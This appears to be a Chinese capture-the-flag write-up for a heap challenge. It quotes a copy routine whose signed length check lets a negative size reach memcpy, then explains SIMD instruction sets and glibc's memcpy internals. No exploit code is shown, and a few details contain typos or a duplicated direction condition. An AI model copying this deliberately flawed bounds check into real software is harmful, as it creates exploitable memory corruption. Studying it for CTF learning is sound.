


# 题目信息

```checksec
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled

GCC: (Ubuntu 13.3.0-6ubuntu2~24.04) 13.3.0
Ubuntu clang version 18.1.3 (1ubuntu1)
```

功能很简单，只有create和copy，且没有edit、free和show。create只能用8次，申请大小不能超过0x100。

漏洞点在copy选项的整型溢出：

```c
printf("len: ");
__isoc99_scanf("%ld", &len);
if ( (signed __int64)len <= size_list[dst] && (signed __int64)len <= size_list[src] ) // 整型溢出
  memcpy(note_list[dst], note_list[src], len);
else
  printf("[!] invalid copy size\n");
```

本题有2个值得学习的点：

1. 单指令多数据(SIMD)指令集的基本概念
2. 在不同SIMD指令集下memcpy的行为，以及size为负数时memcpy的行为

# 单指令多数据(SIMD)指令集

参考：

* [一文读懂SIMD指令集](https://blog.csdn.net/qq_32916805/article/details/117637192)
* [高级矢量扩展(AVX)指令集简介](https://zhuanlan.zhihu.com/p/668860838)
* [Intel® Instruction Set Extensions Technology](https://www.intel.com/content/www/us/en/support/articles/000005779/processors.html)

SIMD（Single Instruction Multiple Data）指令集，指**单指令多数据流技术，可用一组指令对多组数据进行并行操作**。

SIMD指令可以在一个控制器上控制同时多个平行的处理微元，一次指令运算执行多个数据流，这样在很多时候可以提高程序的运算速度。SIMD指令在本质上非常类似一个向量处理器，可对控制器上的一组数据（又称“数据向量”） 同时分别执行相同的操作从而实现空间上的并行。SIMD是CPU实现DLP（Data Level Parallelism）的关键，DLP就是按照SIMD模式完成计算的。SSE，较早的MMX和AMD的3DNow!都是SIMD指令集。它可以通过单指令多数据技术和单时钟周期并行处理多个浮点来有效地提高浮点运算速度。

指令集扩展（Instruction Set Extensions）是处理器硬件功能的增强，用于提高特定任务的执行效率。**SSE（Streaming SIMD Extensions）** 和 **AVX（Advanced Vector Extensions）** 是Intel推出的两种SIMD（单指令多数据）指令集，用于提升处理器在多媒体、浮点运算和数据处理任务中的性能。

## 查看主机cpu支持的指令集

### Linux

```bash
lscpu | grep Flags
# or
cat /proc/cpuinfo | grep flags
```

### Windows

工具：[cpu-z](https://download.cpuid.com/cpu-z/cpu-z_2.15-cn.zip)


## 发展概述




1. X86指令集：
   X86指令集是Intel为其第一块16位CPU(i8086)专门开发的，IBM1981年推出的世界第一台PC机中的CPU—i8088(i8086简化版)使用的也是X86指令，同时电脑中为提高浮点数据处理能力而增加的X87芯片系列数学协处理器则另外使用X87指令，以后就将X86指令集和X87指令集统称为X86指令集。
2. MMX指令集：（MultiMedia Extensions）
   1997年Intel公司推出了多媒体扩展指令集MMX，它包括57条多媒体指令。MMX指令主要用于增强CPU对多媒体信息的处理能力，提高CPU处理3D图形、视频和音频信息的能力。
3. SSE指令集：（Streaming SIMD Extensions Series）
   由于MMX指令并没有带来3D游戏性能的显著提升，所以，1999年Inter公司在Pentium III CPU产品中推出了数据流单指令序列扩展指令（SSE），兼容MMX指令。
   * SSE：SSE为Streaming SIMD Extensions的缩写，如同其名称所表示的，是一种SSE指令包括了四个主要的部份：单精确度浮点数运算指令、整数运算指令（MMX的延伸，和MMX使用同样的寄存器）、Cache控制指令、和状态控制指令。
   * SSE2：在Pentium 4 CPU中，Inter公司开发了新指令集SSE2。SSE2指令一共144条，包括浮点SIMD指令、整形SIMD指令、SIMD浮点和整形数据之间转换、数据在MMX寄存器中转换等几大部分。其中重要的改进包括引入新的数据格式，如：128位SIMD整数运算和64位双精度浮点运算等。
   * SSE3：相对于SSE2，SSE3又新增加了13条新指令，此前它们被统称为pni(prescott new instructions)。13条指令中，一条用于视频解码，两条用于线程同步，其余用于复杂的数学运算、浮点到整数转换和SIMD浮点运算。
   * SSE4：SSE4增加了50条新的增加性能的指令，这些指令有助于编译、媒体、字符/文本处理和程序指向加速。
4. AVX指令集：（Advanced Vector Extensions）
   2010年，AVX将之前浮点运算数据的宽度从128bit的扩展到256bit。同时新的CPU架构下数据传输速度也获得了提升。
   * AVX：AVX指令集在SIMD计算性能增强的同时也沿用了的MMX/SSE指令集。不过和MMX/SSE的不同点在于，增强的AVX指令在指令的格式上也发生了很大的变化。x86(IA-32/Intel 64)架构的基础上增加了prefix(Prefix)，所以实现了新的命令，也使更加复杂的指令得以实现，从而提升了x86 CPU的性能。AVX并不是x86 CPU的扩展指令集，可以实现更高的效率，同时和CPU硬件兼容性也更好，在SSE指令的基础上AVX也使SSE指令接口更加易用。
   * AVX2：在2011年发布的AVX2则在此基础上加入了以下新内容：整数SIMD指令扩展至256位，2个新FMA单元及浮点FMA指令，离散数据加载指令“gather”，新的位移和广播指令。
   * AVX-512：AVX-512 是 Intel 公司在 2013 年发布的一套扩展指令集，其指令宽度扩展为 512 bit，每个时钟周期内可执行 32 次双精度或 64 次单精度浮点（FP）运算，专门针对图像/音视频处理、数据分析、科学计算、数据加密和压缩和深度学习等大规模运算需求的应用场景。




## 寄存器与指令数据

|        | MMX     | SSE       | SSE2      | AVX        | AVX2       |
| ------ | ------- | --------- | --------- | ---------- | ---------- |
| 寄存器 | MM0-MM7 | XMM0-XMM7 | XMM0-XMM7 | YMM0-YMM15 | YMM0-YMM15 |
| 浮点   | /       | 128bit    | 128bit    | 256bit     | 256bit     |
| 整型   | 64bit   | /         | 128bit    | 128bit     | 256bit     |



1. MMX：MMX中使用的寄存器为MM0到MM7，实际上借用了浮点处理器的8个寄存器的低64Bit，这样导致了浮点运算速度降低。
2. SSE：SSE指令集推出时，Intel公司在Pentium III CPU中增加了8个128位的SSE指令专用寄存器，为XMM0到XMM7。这样SSE指令寄存器可以全速运行，保证了与浮点运算的并行性。这些XMM寄存器用于4个单精度浮点数运算的SIMD执行，并可以与MMX整数运算或x87浮点运算混合执行。
3. SSE2：2001年在Pentium 4上引入了SSE2技术，进一步扩展了指令集，使得XMM寄存器上可以执行8/16/32位宽的整数SIMD运算或双精度浮点数的SIMD运算。对整型数据的支持使得所有的MMX指令都是多余的了，同时也避免了占用浮点数寄存器。SSE2为了更好地利用高速寄存器，还新增加了几条寄存指令，允许程序员控制已经寄存过的数据。这使得 SIMD技术基本完善。
4. SSE3：SSE3指令集扩展的指令包含寄存器的局部位之间的运算，例如高位和低位之间的加减运算；浮点数到整数的转换，以及对超线程技术的支持。
5. AVX是Intel的SSE延伸架构，AVX硬件由16个256bitYMM寄存器（YMM0~YMM15）组成，把寄存器XMM 128bit提升至YMM 256bit增加了一倍的运算效率。此架构支持三运算指令（3-Operand Instructions），减少在编码上需要先复制才能运算的动作。在微码部分使用了LES LDS这两少用的指令作为延伸指令Prefix。AVX的256bit的YMM寄存器分为两个128bit的lanes，AVX指令并不支持跨lanes的操作。其中YMM寄存器的低128位与Intel SSE指令集的128bitXMM寄存器复用。尽管VGX并不要求内存对齐，但是内存对齐有助于提升性能。如对于128-bit访问的16字节对齐和对于256-bit访问的32字节对齐。AVX虽然已经将支持的SIMD数据宽度增加到了256位，但仅仅增加了对256位的浮点SIMD支持，整点SIMD数据的宽度还停留在128位上。
6. AVX2：AVX2支持的整点SIMD数据宽度从128位扩展到256位。同时支持了跨lanes操作，加入了增强广播、置换指令支持的数据元素类型、移位操作对各个数据元素可变移位数的支持、跨距访存支持。
7. AVX-512：2013年，英特尔正式发布了AVX-512指令集，将指令宽度进一步扩展到了512 bits，相比AVX2在数据寄存器宽度、数量以及FMA单元的宽度都增加了一倍，所以在每个时钟周期内可以打包32次双精度和64次单精度浮点运算，或者8个64位和16个32位整数，因此在图像/音视频处理、数据分析、科学计算、数据加密和压缩以及人工智能/深度学习等密集型计算应用场景中，会带来前所未有的强大性能表现，理论上浮点性能翻倍，整数计算则增加约33%的性能。

> [!note]
>
> 每一代的指令集都是对上一代兼容的，支持上一代的指令，也可以使用上一代的寄存器，如AVX2也依然支持128位、64位的操作，也可以使用上一代的寄存器（寄存器的硬件实现可能有区别）。AVX也对部分之前的指令接口进行了重构，所以可以在指令文档中找到几个处于不同代际有着相同功能调用接口却不相同的函数。
>
> 但是，混合使用旧的仅XMM的指令和较新的AVX指令会导致延迟，不同代际的指令混用每次状态切换将消耗 50-80 个时钟周期，因此需要最大限度地控制VEX编码指令和旧的SSE代码之间的转换。也就是说，尽量避免将VEX前缀的指令和非VEX前缀的指令混合使用，以实现最佳吞吐量。如果无法避免，可以对同一 VEX/非 VEX 级别的指令进行分组，最大限度地控制二者之间的转换。此外，如果上层 YMM 位通过 `VZEROUPPER` 或 `VZEROALL` 设置为零（编译器应自动插入），则无转换损失。




## 数据结构

由于通常没有内建的128bit和256bit数据类型，SIMD指令使用自己构建的数据类型，这些类型以union实现，这些数据类型可以称作向量，一般来说，MMX指令是__m64 类型的数据，SSE是__m128类型的数据等等。

| **数据类型** | **描述**                    |
| ------------ | --------------------------- |
| __m128       | 包含4个float类型数字的向量  |
| __m128d      | 包含2个double类型数字的向量 |
| __m128i      | 包含若干个整型数字的向量    |
| __m256       | 包含8个float类型数字的向量  |
| __m256d      | 包含4个double类型数字的向量 |
| __m256i      | 包含若干个整型数字的向量    |

说明：

* 每一种类型，从2个下划线开头，接一个m，然后是向量的位长度。
* 如果向量类型是以d结束的，那么向量里面是double类型的数字。如果没有后缀，就代表向量只包含float类型的数字。
* 整形的向量可以包含各种类型的整形数，例如char,short,unsigned long long。也就是说，__m256i可以包含32个char，16个short类型，8个int类型，4个long类型。这些整形数可以是有符号类型也可以是无符号类型

数据结构：

```c {hide=true}
typedef union __declspec(intrin_type) _CRT_ALIGN(8) __m64
{
    unsigned __int64    m64_u64;
    float               m64_f32[2];
    __int8              m64_i8[8];
    __int16             m64_i16[4];
    __int32             m64_i32[2];    
    __int64             m64_i64;
    unsigned __int8     m64_u8[8];
    unsigned __int16    m64_u16[4];
    unsigned __int32    m64_u32[2];
} __m64;

typedef union __declspec(intrin_type) _CRT_ALIGN(16) __m128 {
     float               m128_f32[4];
     unsigned __int64    m128_u64[2];
     __int8              m128_i8[16];
     __int16             m128_i16[8];
     __int32             m128_i32[4];
     __int64             m128_i64[2];
     unsigned __int8     m128_u8[16];
     unsigned __int16    m128_u16[8];
     unsigned __int32    m128_u32[4];
 } __m128;

typedef union __declspec(intrin_type) _CRT_ALIGN(16) __m128i {
    __int8              m128i_i8[16];
    __int16             m128i_i16[8];
    __int32             m128i_i32[4];    
    __int64             m128i_i64[2];
    unsigned __int8     m128i_u8[16];
    unsigned __int16    m128i_u16[8];
    unsigned __int32    m128i_u32[4];
    unsigned __int64    m128i_u64[2];
} __m128i;

typedef struct __declspec(intrin_type) _CRT_ALIGN(16) __m128d {
    double              m128d_f64[2];
} __m128d;
```


## 内存对齐要求

SIMD的指令中通常有对内存对齐的要求。例如，SSE中大部分指令要求地址是16bytes对齐的。以`_mm_load_ps`函数为例，函数原型为：

```c
extern __m128 _mm_load_ps(float const*_A);
```

可以看到，它的输入是一个指向float的指针，返回的是一个m128类型的数据，从汇编的角度理解，就是读取内存中连续四个地址的float数据，放入SSE的XMM寄存器中。这**里加载正确的前提是浮点数阵列0x10 bytes对齐，否则程序会崩溃或得不到正确结果。**

处理没有对齐的数据可以使用`_mm_loadu_ps`函数，这个函数用于处理没有0x10 bytes对齐的数据，但是速度比较慢。

除了类似数组这样可以自然对齐的数据结构，结构体、联合体等数据结构，或想改变数组原有自然对齐长度时，可以采用预编译指令的方法手动对齐：

```c
// 按GCC要求对齐
__attribute__ ((aligned (16))) float input[4] = {1.0, 2.0, 3.0, 4.0};
// 按Microsoft Visual C++要求对齐
__declspec(intrin_type) _CRT_ALIGN(16) float input[4] = {1.0, 2.0, 3.0, 4.0};

// 恢复默认对齐方式
#pragma pack()
```

或使用`xmmintrin.h`头文件提供的宏定义（本质也是预编译指令）：

```c
#include <xmmintrin.h>
_MM_ALIGN16 float input[4] = {1.0, 2.0, 3.0, 4.0};
```

动态数组（dynamic array）可调用`_aligned_malloc`分配空间：

```c
// 分配
input = (float*) _aligned_malloc(ARRAY_SIZE * sizeof(float), 16);
// 释放
_aligned_free(input);
```

> [!tips]
>
> 对于英特尔® SSE 运算，除非明确规定，否则都需要内存对齐。例如，在英特尔® SSE 下，有针对内存对齐和内存未对齐运算的特定指令，如MOVAPD（移动对齐的紧缩双精度值）和 `MOVUPD`（移动非对齐的紧缩双精度值）指令。没有像这样分为两个特定指令的情况下都需要执行对齐访问。
>
> 英特尔® AVX 已经放宽了某些内存对齐要求，因此默认情况下，英特尔® AVX 允许未对齐的访问；但是，这样的访问将导致性能下降，因此旨在要求数据保持内存对齐的原规则仍然是不错的选择（面向 128 位访问的 16 位对齐和面向 256 位访问的 32 位对齐）。**但明确指出需要内存对齐数据的 SSE 指令的VEX 扩展版本除外，这些指令仍然要求使用对齐的数据。**
>
> 256-bit AVX 指令在内存对齐上比128-bit SSE 指令要求更高。虽然在一个cache-line之内，Intel的对齐和非对齐指令已经没有性能差距了，但是由于AVX 有更长的内存访问宽度（YMM <-> memory），会更频繁地触及cache-line 边界。**所以要尽量使用对齐内存分配，如果有时候内存对齐不能保证，可以先用128-bit XMM指令访问内存，然后再组合成256-bit YMM进行运算。**


## Intrinsics指令集与函数集

Intrinsics指令是对MMX、SSE等指令集的指令的一种封装，以函数的形式提供，使得程序员更容易编写和使用这些高级指令，在编译的时候，这些函数会被内联为汇编，不会产生函数调用的开销。

[Intel Intrinsic Guide](https://www.intel.com/content/www/us/en/docs/intrinsics-guide/index.html)可以查询到所有的Intrinsic指令、对应的汇编指令以及如何使用等。

* VC6支持MMX、3DNow!、SSE、SSE2，更高版本的VC支持更多的指令集。但是，VC没有提供检测Intrinsic函数集支持性的办法。
* GCC使用`-mmmx`、`-msse`等编译器开关来启用各种指令集，同时`x86intrin.h`头文件定义了对应的`__MMX__`、`__SSE__`等宏来声明相应的Intrinsic函数集，通过该类宏可以判断Intrinsic函数集支持性。

VC引入`intrin.h`，GCC引入`x86intrin.h`会自动引入当前编译器所支持的所有Intrinsic头文件。

MSVC头文件：

```c
#include <mmintrin.h>  // MMX
#include <xmmintrin.h> // SSE(include mmintrin.h)
#include <emmintrin.h> // SSE2(include xmmintrin.h)
#include <pmmintrin.h> // SSE3(include emmintrin.h)
#include <tmmintrin.h> // SSSE3(include pmmintrin.h)
#include <smmintrin.h> // SSE4.1(include tmmintrin.h)
#include <nmmintrin.h> // SSE4.2(include smmintrin.h)
#include <wmmintrin.h> // AES(include nmmintrin.h)
#include <immintrin.h> // AVX(include wmmintrin.h)
#include <intrin.h>    // all above(include immintrin.h)
```

> [!note]
>
> 下一个头文件包含上一个头文件中内容，例如`xmmintrin.h`为SSE 头文件，此头文件里包含MMX头文件，`emmintrin.h`为SSE2头文件，此头文件里包含SSE头文件。

GCC头文件：

|    头文件    |      宏      | 编译器参数 |
| :----------: | :----------: | :--------: |
| avx2intrin.h |  `__AVX2__`  |   -mavx2   |
| avxintrin.h  |  `__AVX__`   |   -mavx    |
| emmintrin.h  |  `__SSE2__`  |   -msse2   |
| nmmintrin.h  | `__SSE4_2__` |  -msse4.2  |
| xmmintrin.h  |  `__SSE__`   |   -msse    |
|  mmintrin.h  |  `__MMX__`   |   -mmmx    |


## 函数命名

SIMD指令的intrinsics函数名称一般为如下形式：

```c
_mm<bit_width>_<name>_<data_type>
```

* `<bit_width>` 表明了向量的位长度，即操作对象的数据类型大小，对于128位的向量，这个参数为空，对于256位的向量，这个参数为256。

* `<name>`描述了内联函数的算术操作。一般由两部分组成：

  * 第一部分是表示指令的作用，比如加法add等；
  * 第二部分是可选的修饰符，表示一些特殊的作用，比如从内存对齐，逆序加载等；

  | 可选的修饰符 | 示例      | 描述                                                         |
  | ------------ | --------- | ------------------------------------------------------------ |
  | u            | loadu     | Unaligned memory: 对内存未对齐的数据进行操作                 |
  | s            | subs/adds | Saturate: 饱和计算将考虑内存能够存储的最小/最大值。非饱和计算略内存问题。即计算的上溢和下溢 |
  | h            | hsub/hadd | Horizontally: 在水平方向上做加减法                           |
  | hi/lo        | mulhi     | 高/低位                                                      |
  | r            | setr      | Reverse order: 逆序初始化向量                                |
  | fm           | fmadd     | Fused-Multiply-Add(FMA)运算，单一指令进行三元运算            |

* `<data_type>`表明了操作的粒度，具体情形见下表：

  | `<data_type>`    |                                             | 数据类型              |
  | ---------------- | ------------------------------------------- | --------------------- |
  | epi8/epi16/epi32 |                                             | 有符号的8,16,32位整数 |
  | epu8/epu16/epu32 |                                             | 无符号的8,16.32位整数 |
  | si128/si256      |                                             | 未指定的128,256位向量 |
  | ps               |                                             | 包装型单精度浮点数    |
  | ss               | scalar single precision floating point data | 数量型单精度浮点数    |
  | pd               | pached double precision floating point data | 包装型双精度浮点数    |
  | sd               |                                             | 数量型双精度浮点数    |

调用举例：

```c {hide=true}
#include <xmmintrin.h>

float input[4] = {1.0f, 2.0f, 3.0f, 4.0f};
__m128 a = _mm_load_ps(input); // 加载数据到128-bit SSE XMM寄存器
```


# memcpy与SIMD

根据CPU硬件支持的SIMD指令集不同（[VEC_SIZE](https://elixir.bootlin.com/glibc/glibc-2.39/C/ident/VEC_SIZE)不同），memcpy每次拷贝的数据长度也会有所不同（如`ssse3`、`sse2`、`avx/evex`、`avx512`分别一次性拷贝0x30、0x40、0x80、0x100长度的内容），所以远程和本地的堆风水可能会有很大差异，且无法通过docker复刻远程环境。（这也是这道题争议最大的地方hhh

## 函数定义

memcpy宏定义如下：

```assembly
#ifndef MEMCPY_SYMBOL
# define MEMCPY_SYMBOL(p,s)		MEMMOVE_SYMBOL(p, s)
#endif
```

而`MEMMOVE_SYMBOL`分别定义在：

* [**sysdeps/x86_64/multiarch/memmove-avx-unaligned-erms-rtm.S**, line 5 *(as a macro)*](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/x86_64/multiarch/memmove-avx-unaligned-erms-rtm.S#L5)
* [**sysdeps/x86_64/multiarch/memmove-avx-unaligned-erms.S**, line 8 *(as a macro)*](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/x86_64/multiarch/memmove-avx-unaligned-erms.S#L8)
* [**sysdeps/x86_64/multiarch/memmove-avx512-unaligned-erms.S**, line 8 *(as a macro)*](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/x86_64/multiarch/memmove-avx512-unaligned-erms.S#L8)
* [**sysdeps/x86_64/multiarch/memmove-evex-unaligned-erms.S**, line 8 *(as a macro)*](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/x86_64/multiarch/memmove-evex-unaligned-erms.S#L8)
* [**sysdeps/x86_64/multiarch/memmove-sse2-unaligned-erms.S**, line 30 *(as a macro)*](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/x86_64/multiarch/memmove-sse2-unaligned-erms.S#L30)

分别将函数名定义为：（memcpy实际调用的函数）

```c
__memmove_avx_unaligned_erms_rtm // avx-rtm
__memmove_avx_unaligned_erms // avx
__memmove_avx512_unaligned_erms // avx512
__memmove_evex_unaligned_erms // avx256/evex256
__memmove_sse2_unaligned_erms // sse2
```

参考源码可知，VEC_SIZE定义在：

* [**sysdeps/x86_64/multiarch/x86-avx-vecs.h**, line 27 *(as a macro)*](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/x86_64/multiarch/x86-avx-vecs.h#L27)
* [**sysdeps/x86_64/multiarch/x86-evex256-vecs.h**, line 27 *(as a macro)*](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/x86_64/multiarch/x86-evex256-vecs.h#L27)
* [**sysdeps/x86_64/multiarch/x86-evex512-vecs.h**, line 27 *(as a macro)*](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/x86_64/multiarch/x86-evex512-vecs.h#L27)
* [**sysdeps/x86_64/multiarch/x86-sse2-vecs.h**, line 27 *(as a macro)*](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/x86_64/multiarch/x86-sse2-vecs.h#L27)

> 如本地虚拟机支持`avx/avx2/avx_vnni`，实际调用的是[`__memmove_avx_unaligned_erms`](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/x86_64/multiarch/memmove-vec-unaligned-erms.S#L255)，`VC_SIZE = 32`，一次性拷贝`VC_SIZE*4 = 0x80`长度内容。

## 函数特点

1. 使用**重叠load/store**的方式避免分支，非对齐load（src不对齐），对齐store（dst对齐），提高效率

2. 应对可能的src和dst地址重叠情况：

   * src < dst时，**反向拷贝**（backward），将尾部`VEC_SIZE`和头部`4*VEC_SIZE`长度的内容提前存入`vmm0`和`vmm5~vmm8`，最后再拷贝到目标地址
   * src < dst时，**正向拷贝**（forward），将头部`VEC_SIZE`和尾部`4*VEC_SIZE`长度的内容提前存入`vmm8`和`vmm0, vmm5~vmm7`，最后再拷贝到目标地址

3. 当` x86_rep_movsb_threshold <= size < x86_rep_movsb_stop_threshold`时直接使用`REP MOVSB`进行拷贝

4. 采用 **非时间性存储（non-temporal store）** 拷贝绕过缓存提高效率，同时也能避免 **页面别名（page alias）** 发生时的性能下降。当`size >= __x86_shared_non_temporal_threshold`且dst和src区域无重叠时，使用非时间性存储（non-temporal store）拷贝：

   * 当`size < 16*__x86_shared_non_temporal_threshold`且没有发生page alias时，每次拷贝2页
   * 当`size >= 16*__x86_shared_non_temporal_threshold`或发生了page alias时，每次拷贝4页

   > 本地调试时得到的`__x86_shared_non_temporal_threshold(%rip) = 0x840`

详细解释：



> [Reference](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/x86_64/multiarch/memmove-vec-unaligned-erms.S#L19)
>
> /* memmove/memcpy/mempcpy is implemented as:
>
>    1. Use overlapping load and store to avoid branch.
>    2. Load all sources into registers and store them together to avoid possible address overlap between source and destination.
>    3. If size is 8 * VEC_SIZE or less, load all sources into registers and store them together.
>    4. If address of destination > address of source, backward copy 4 * VEC_SIZE at a time with unaligned load and aligned store. Load the first 4 * VEC and last VEC before the loop and store them after the loop to support overlapping addresses.
>    5. Otherwise, forward copy 4 * VEC_SIZE at a time with unaligned load and aligned store.  Load the last 4 * VEC and first VEC before the loop and store them after the loop to support overlapping addresses.
>    6. On machines with ERMS feature, if size greater than equal or to x86_rep_movsb_threshold and less than x86_rep_movsb_stop_threshold, then REP MOVSB will be used.
>    7. If size >= __x86_shared_non_temporal_threshold and there is no overlap between destination and source, use non-temporal store instead of aligned store copying from either 2 or 4 pages at once.
>    8. For point 7) if size < 16 * __x86_shared_non_temporal_threshold and source and destination do not page alias, copy from 2 pages at once using non-temporal stores. Page aliasing in this case is considered true if destination's page alignment - sources' page alignment is less than 8 * VEC_SIZE.
>    9. If size >= 16 * __x86_shared_non_temporal_threshold or source and destination do page alias copy from 4 pages at once using non-temporal stores.





memcpy函数采用重叠load/store的方式避免分支判断产生的损耗，头尾都可能会有部分重叠拷贝。

以`VEC_SIZE = 0x20`时，`memcpy(0x10, src, 0x100)`正向拷贝的情况为例，`0x20~0x30`和`0x90~0xa0`的部分会被重叠load/store：


附源码解读：

* 把开始的VEC_SIZE长度内容存入vmm0：[memmove-vec-unaligned-erms.S#L220](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/x86_64/multiarch/memmove-vec-unaligned-erms.S#L220)

  ```assembly {hide=true}
    /* Load regardless.  */
  	VMOVU	(%rsi), %VMM(0)
  ```

* 把最后4个VEC_SIZE长度的内容存入vmm5~vmm8，并将dst起始指针存入`rcx`，将dst对齐到`VEC_SIZE`，再将对齐后的多余尾部的指针存入`rdx`：[memmove-vec-unaligned-erms.S#L456](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/x86_64/multiarch/memmove-vec-unaligned-erms.S#L456)

  ```assembly {hide = true}
  L(more_8x_vec_forward):
  	/* Load first and last 4 * VEC to support overlapping addresses. */
  
  	/* First vec was already loaded into VEC(0).  */
  	VMOVU	-VEC_SIZE(%rsi, %rdx), %VMM(5)
  	VMOVU	-(VEC_SIZE * 2)(%rsi, %rdx), %VMM(6)
  	/* Save beginning of dst.  */
  	movq	%rdi, %rcx
  	/* Align dst to VEC_SIZE - 1.  */
  	orq	$(VEC_SIZE - 1), %rdi
  	VMOVU	-(VEC_SIZE * 3)(%rsi, %rdx), %VMM(7)
  	VMOVU	-(VEC_SIZE * 4)(%rsi, %rdx), %VMM(8)
  	
  	/* Subtract dst from src. Add back after dst aligned.  */
  	subq	%rcx, %rsi
  	/* Finish aligning dst.  */
  	incq	%rdi
  	/* Restore src adjusted with new value for aligned dst.  */
  	addq	%rdi, %rsi
  	/* Store end of buffer minus tail in rdx.  */
  	leaq	(VEC_SIZE * -4)(%rcx, %rdx), %rdx
  	
  	/* Dont use multi-byte nop to align.  */
  	.p2align 4,, 11
  ```

  > [!tips]
  >
  > 之所以在4条`VMOVU`指令间夹了2条`movq`和`orq`应该是为了优化指令调度、减少潜在的流水线冲突，避免指令间的空闲周期，使得`VMOVU`指令之间不会因为等待内存加载而浪费时间，保持流水线的高效运行，提高整体的执行效率。

* 按每次4 * VEC_SIZE长度循环复制中间内容：[memmove-vec-unaligned-erms.S#L481](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/x86_64/multiarch/memmove-vec-unaligned-erms.S#L481)

  ```assembly {hide = true}
  L(loop_4x_vec_forward):
  	/* Copy 4 * VEC a time forward.  */
  	VMOVU	(%rsi), %VMM(1)
  	VMOVU	VEC_SIZE(%rsi), %VMM(2)
  	VMOVU	(VEC_SIZE * 2)(%rsi), %VMM(3)
  	VMOVU	(VEC_SIZE * 3)(%rsi), %VMM(4)
  	subq	$-(VEC_SIZE * 4), %rsi
  	VMOVA	%VMM(1), (%rdi)
